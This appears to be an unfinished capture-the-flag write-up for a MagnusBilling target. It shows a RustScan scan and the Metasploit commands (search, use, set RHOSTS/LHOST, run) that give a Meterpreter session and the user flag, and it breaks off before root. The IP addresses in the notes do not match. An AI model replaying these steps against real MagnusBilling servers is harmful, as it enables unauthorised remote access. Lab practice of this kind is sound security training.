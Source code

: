 #### Target Ip :  10.201.76.54

-----------

RustScan 

rustscan -a 10.201.76.54 -- -sC -sV 

![[Pasted image 20251025174816.png]]

We found open ports :  

Open 10.201.76.54:22  
Open 10.201.76.54:80
Open 10.201.76.54:3306
Open 10.201.76.54:5038

![[Pasted image 20251025183606.png]]

These are the service running on the server.

----------------
Then we found a exploit on msf console and the service was MagnusBilling


msf > search MagnusBilling

![[Pasted image 20251025183737.png]]

msf > use 0

msf >show options

![[Pasted image 20251025184034.png]]

msf >set RHOSTS 10.201.89.202

msf >set LHOST 10.17.17.19

msf >run

Now we get the meterpreter session 

![[Pasted image 20251025184353.png]]

Then back to the home directory 

Found total 3 users 

![[Pasted image 20251025184711.png]]

So finally in the magnus user i found the user.txt flag

----------------
Now lets find the root.txt Flag

